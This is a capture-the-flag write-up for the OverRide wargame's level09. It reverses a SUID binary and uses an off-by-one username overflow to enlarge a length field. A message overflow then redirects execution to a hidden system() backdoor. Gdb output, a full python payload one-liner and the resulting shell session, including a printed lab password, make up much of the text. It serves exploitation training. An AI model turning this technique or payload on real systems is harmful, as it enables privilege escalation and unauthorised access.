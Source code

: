 # Level09 Exploit

## 1. Initial Analysis

List the files in the directory:

```bash
level09@OverRide:~$ ls -l
total 16
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

The `level09` binary has the SUID bit set, which means it will run with the permissions of the owner of the file, in this case `end`.

## 2. Program Execution

Observe the program behavior:

```bash
level09@OverRide:~$ ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: cam
>: Welcome, cam
>: Msg @Unix-Dude
>>: hello
>: Msg sent!

```

We can see that the program waits for an username input, then prints a welcome message, and then waits for a message input and prints a message sent message.

## 3. Disassembling `main` Function

Use GDB to disassemble the `main` function:

```bash
level09@OverRide:~$ gdb ./level09
(gdb) disass main
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool. You can find the converted code in [source.c](source.c).

We also use Ghidra to decompile the binary. You can find the decompiled code by Ghidra in [ghidra_level09.c](Ressources/ghidra_level09.c).

## 4. Program Analysis

The `main` function call `handle_msg`. This function declare a variable which is used in `set_username` and `set_msg` functions to set the username and message.
In the `set_username` function, we can see that the arg (`param_1` in ghidra file) is used like this:
`(param_1 + 0x8c)`
`0x8c` is `140` in decimal.
In the `set_msg` function, we can see that the arg (`param_1` in ghidra file) is used like this:
`strncpy(param_1,(char *)local_408,(long)*(int *)(param_1 + 0xb4));`
`0xb4` is `180` in decimal.
So we use this variable with his address (`strncpy(param_1`), with a address 140 bytes after, and with a address 180 bytes after.

His original address is used in `set_msg` function in the first arg of `strncpy` function (string argument), and his address + 180 bytes is used in the third arg of `strncpy` function (size argument).
His address + 140 is used in `set_username` function in the second arg of `strncpy` function (string argument).
So we can conclude that it's maybe a structure, with a string of 140 bytes, a string of 40 bytes and a integer.
The first string is the text message, the second string is the username and the integer is the length of the first string.

Maybe like this:
```c
struct s_msg {
    char text[140];
    char username[40];
    int len;
};
```
In the ghidra file, in `handle_msg` function, we can see:
```c
char local_c8 [140];
undefined8 local_3c;
undefined8 local_34;
undefined8 local_2c;
undefined8 local_24;
undefined8 local_1c;
undefined4 local_14;

local_3c = 0;
local_34 = 0;
local_2c = 0;
local_24 = 0;
local_1c = 0;
local_14 = 0x8c;
```
`0x8c` = 140 in decimal, and it's the last variable declared for this structure. So it's maybe the integer of the structure, the length of the first string.

In `set_username`, we can see that username input is copied in username string of the structure (40 bytes), and in `set_msg`, we can see that message input is copied in text string of the structure (140 bytes).

With Ghidra, we found a function `secret_backdoor` which is never called in the program.
```c
void secret_backdoor() {
    char buffer[128];

    fgets(buffer, 128, stdin);
    system(buffer);
}
```
This function reads 128 bytes from stdin and execute it with `system` function. We can use this function to execute a command.

## 4.1 Vulnerability

In the `set_username` function, we can see that the username input is copied in the username string of the structure with a `while` loop. The loop stops when the input is equal to `\n` or when the size of the input is greater than `0x29` (41 bytes).
But the size of the username string in the structure is 40 bytes.
So if we input a username with a size greater than 40 bytes, the 41th byte will overwrite the integer of the structure, which is the length of the first string. So we can rewrite the length of the first string with a value greater than 140.

In the `set_msg` function, the message input is copied in the text string of the structure with a `strncpy` function, with the size integer of the structure as the size argument. So if we rewrite the length of the first string with a value greater than 140, we can write more than 140 bytes in the text string of the structure, and overflow the text string.

## 5. Exploit

We want to execute the `secret_backdoor` function. For that, we will try to overflow the EIP with the address of the `secret_backdoor` function.

### 5.1 Find the secret_backdoor Address

```bash
level09@OverRide:~$ gdb ./level09
(gdb) break main
Breakpoint 1 at 0xaac
(gdb) run
Starting program: /home/users/level09/level09 

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) disass secret_backdoor
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:	push   %rbp
   0x000055555555488d <+1>:	mov    %rsp,%rbp
   0x0000555555554890 <+4>:	add    $0xffffffffffffff80,%rsp
   0x0000555555554894 <+8>:	mov    0x20171d(%rip),%rax        # 0x555555755fb8
   0x000055555555489b <+15>:	mov    (%rax),%rax
   0x000055555555489e <+18>:	mov    %rax,%rdx
   0x00005555555548a1 <+21>:	lea    -0x80(%rbp),%rax
   0x00005555555548a5 <+25>:	mov    $0x80,%esi
   0x00005555555548aa <+30>:	mov    %rax,%rdi
   0x00005555555548ad <+33>:	callq  0x555555554770 <fgets@plt>
   0x00005555555548b2 <+38>:	lea    -0x80(%rbp),%rax
   0x00005555555548b6 <+42>:	mov    %rax,%rdi
   0x00005555555548b9 <+45>:	callq  0x555555554740 <system@plt>
   0x00005555555548be <+50>:	leaveq 
   0x00005555555548bf <+51>:	retq   
End of assembler dump.
```

The address of the `secret_backdoor` function is `0x000055555555488c`.

### 5.2. Find the Offset

We overflow the size integer of the structure with one byte.
The size integer is defined at the value `0x8c`. An integer is 4 bytes, so `len = 0x0000008c`.
If we overflow the first byte of the integer with `0xff`, the new value of the integer will be `0x000000ff = 255`.
So we can search the offset until 255.

The structure is defined like this:
```c
struct s_msg {
    char text[140];
    char username[40];
    int len;
} t_msg;
```
And `text` is used in:
```c
strncpy(msg->text, local_buffer, strlen(msg->len));
```
If we want overflow here, we need to fill the `text`, the `username` and the `len`.
So 140 bytes for the text, 40 bytes for the username and 4 bytes for the len.
So we can search the offset after 184 bytes.

The offset is between 184 and 255.

### 5.3. Exploit

For the username input, we will use 40 bytes of `a` and 1 byte of `0xff` to overflow the integer of the structure.
For the message input, we will use `X` bytes of `0x90` to fill the text and 4 bytes of the address of the `secret_backdoor` function.
The address of the `secret_backdoor` function is `0x000055555555488c`, in little-endian it is `\x8c\x48\x55\x55\x55\x55\x00\x00`.
```bash
python -c "print 40 * 'a' + '\xff' + '\n' + '\x90' * X + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh' + '\n'" > /tmp/cam
```

We know that `X` is between 184 and 255. So we will try with all numbers between 184 and 255.
And we found that the offset is 200

```bash
level09@OverRide:~$ python -c "print 40 * 'a' + '\xff' + '\n' + '\x90' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh' + '\n'" > /tmp/cam
level09@OverRide:~$ (cat /tmp/cam; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

Congratulations! You have successfully exploited the `level09` binary and found the password for `end`.

```bash
level09@OverRide:~$ su end
Password: 
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
end@OverRide:~$ ./end
```

